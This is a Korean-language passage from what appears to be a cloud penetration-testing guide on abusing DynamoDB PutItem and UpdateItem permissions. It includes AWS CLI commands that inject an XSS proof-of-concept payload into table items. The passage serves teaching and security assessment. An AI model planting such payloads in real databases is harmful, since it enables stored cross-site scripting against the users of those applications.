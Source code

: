 이 권한은 사용자가 **테이블에 새 항목을 추가하거나 기존 항목을 새 항목으로 교체**할 수 있도록 허용합니다. 동일한 기본 키를 가진 항목이 이미 존재하면, **해당 항목 전체가 새 항목으로 대체됩니다**. 기본 키가 존재하지 않으면 지정된 기본 키를 가진 새 항목이 **생성됩니다**.

{{#tabs }}
{{#tab name="XSS Example" }}
```bash
## Create new item with XSS payload
aws dynamodb put-item --table <table_name> --item file://add.json
### With add.json:
{
"Id": {
"S": "1000"
},
"Name": {
"S":  "Marc"
},
"Description": {
"S": "<script>alert(1)</script>"
}
}
```
{{#endtab }}

{{#tab name="AI Example" }}
```bash
aws dynamodb put-item \
--table-name ExampleTable \
--item '{"Id": {"S": "1"}, "Attribute1": {"S": "Value1"}, "Attribute2": {"S": "Value2"}}' \
--region <region>
```
{{#endtab }}
{{#endtabs }}

**잠재적 영향:** DynamoDB 테이블에 데이터를 추가/수정할 수 있게 되어 추가적인 취약점/우회가 악용될 수 있음

### `dynamodb:UpdateItem`

이 권한은 사용자가 항목의 기존 속성을 **수정하거나 항목에 새로운 속성을 추가하는 것**을 허용합니다. 전체 항목을 **대체하지 않으며**, 지정된 속성들만 업데이트합니다. 테이블에 기본 키가 존재하지 않는 경우, 이 작업은 지정된 기본 키로 **새 항목을 생성**하고 업데이트 표현식에 지정된 속성들을 설정합니다.

{{#tabs }}
{{#tab name="XSS Example" }}
```bash
## Update item with XSS payload
aws dynamodb update-item --table <table_name> \
--key file://key.json --update-expression "SET Description = :value" \
--expression-attribute-values file://val.json
### With key.json:
{
"Id": {
"S": "1000"
}
}
### and val.json
{
":value": {
"S": "<script>alert(1)</script>"
}
}
```
{{#endtab }}
